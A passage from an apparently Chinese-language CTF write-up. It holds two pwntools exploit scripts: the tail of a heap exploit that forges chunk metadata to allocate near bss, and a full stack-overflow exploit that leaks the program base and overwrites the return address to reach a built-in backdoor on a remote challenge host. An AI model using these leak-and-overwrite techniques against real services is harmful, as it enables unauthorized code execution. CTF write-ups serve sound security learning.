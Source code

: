 ```python
delete(1)
delete(2)

bss = 0x4040a0

payload = 'a'*(0x60*2+0x10) + p64(0) + p64(0x71) + p64(bss-0x13)
edit(0, len(payload), payload)

new(0x60, 'e'*0x60)
new(0x60, '\xff'*0x60)

#gdb.attach(p)

p.interactive()

```



### 一苇

有官方后门，栈溢出。调用两次。第一次leak出程序基址~~（话说仔细想想好像也不用leak）~~ ，第二次覆写rip的低三位到官方后门即可。

```python
from pwn import*
context.log_level = 'debug'
context.arch = 'amd64'

debug = 0
if debug:
	p = process('./pwn13')
	gdb.attach(p)
else:
	p = remote('111.33.164.6',50013)

def se(x):
	p.send(x)

def sl(x):
	p.sendline(x)

def ru(x):
	p.recvuntil(x)

ru(':')
payload = 'aaaaaaaa'
sl('1')
ru('input massage\n')
se(payload+'\n')
ru('your message:')
p.recvuntil(payload)
x = u64((p.recv(6)).ljust(8,'\x00'))
print(hex(x))
base = x - 0xa0a
backdoor = base + 0xa50
print(hex(backdoor))

ru('your choice:')
sl('1')
ru('input massage\n')
payload = 'a'*0x28+p64(backdoor)[0:2]
print(len(payload))
se(payload)
#raw_input()
p.interactive()
```